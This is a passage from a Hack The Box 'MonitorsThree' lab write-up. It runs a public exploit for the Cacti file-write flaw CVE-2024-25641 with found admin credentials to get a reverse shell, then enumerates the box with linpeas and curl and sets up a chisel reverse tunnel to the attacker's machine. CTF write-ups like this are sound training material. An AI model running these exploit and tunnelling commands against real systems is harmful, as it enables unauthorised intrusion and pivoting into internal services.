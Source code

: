 
---
# Foothold
Someone else was kind enough to make an exploit for CVE-2024-25641, an arbitrary file write vuln allowing authenticated user's to execute php code - https://github.com/5ma1l/CVE-2024-25641

We need to change the values to our IP and listening port in php/monkey.php.
![](/Screenshots/MonitorsThree_image_7.png)

```bash
┌──(fish㉿kali)-[~/htb/monitorsthree/cacti/CVE-2024-25641]
└─$ python3 exploit.py http://cacti.monitorsthree.htb/cacti admin greencacti2001

```

![](/Screenshots/MonitorsThree_image_8.png)

And we're on the box. Looking at home dirs, there's one other user besides root `marcus`.

Tried the password we already had but no luck switching to marcus.

Linpeas.sh finds an interesting process running on port 8084 `/usr/bin/mono /usr/lib/mono/4.5/xsp4.exe`
![](/Screenshots/MonitorsThree_image_9.png)

![](/Screenshots/MonitorsThree_image_10.png)

Makes sense as it's running a .exe. This appears to be a web app running monodoc

![](/Screenshots/MonitorsThree_image_11.png)


Another listening port on 8200. Looking at a docker-compose.yml file, it's a linuxserver container.

![](/Screenshots/MonitorsThree_image_12.png)

checking out 8200, looks like it's running tiny webserver and is hosting a login

```bash
www-data@monitorsthree:/$ curl -v localhost:8200/login.html
```
![](/Screenshots/MonitorsThree_image_13.png)

We can upload chisel and set up a rev port forward to check out the ports:

```bash
www-data@monitorsthree:/dev/shm$ ./chisel client 10.10.14.7:1080 R:8200:127.0.0.1:8200
...
┌──(fish㉿kali)-[~/htb/monitorsthree]
└─$ ./chisel_amd server --reverse --port 1080 
```

![](/Screenshots/MonitorsThree_image_14.png)
